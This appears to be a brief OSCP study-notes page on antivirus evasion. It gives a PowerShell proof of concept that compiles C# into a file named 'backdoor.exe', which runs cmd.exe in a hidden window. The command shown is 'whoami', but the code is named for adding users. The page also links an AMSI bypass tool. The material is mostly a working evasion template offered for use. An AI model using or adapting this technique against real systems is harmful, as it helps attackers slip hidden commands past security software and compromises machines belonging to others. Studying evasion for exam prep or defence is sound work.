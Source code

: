 ## AV Simple Effective Bypass

You can compile c# code in powershell and create a binary.
Run the following POC in powershell:

```
$code = @"
using System;
namespace AddUsers
{
    public class AddUsers
    {
        public static void Main(){
            System.Diagnostics.Process Process = new System.Diagnostics.Process();
            System.Diagnostics.ProcessStartInfo strtInfo = new System.Diagnostics.ProcessStartInfo();
            strtInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
            strtInfo.FileName = "cmd.exe";
            strtInfo.Arguments = "/c whoami";
            Process.StartInfo = strtInfo;
            Process.Start();
            Console.WriteLine("User Created");
        }
    }
}
"@
Add-Type -outputtype consoleapplication -outputassembly backdoor.exe -TypeDefinition $code -Language CSharp
```

## Extra Mile for AV Bypass (Not required for the OSCP Exam)

[AMSI Write Raid](https://github.com/V-i-x-x/AMSI-BYPASS)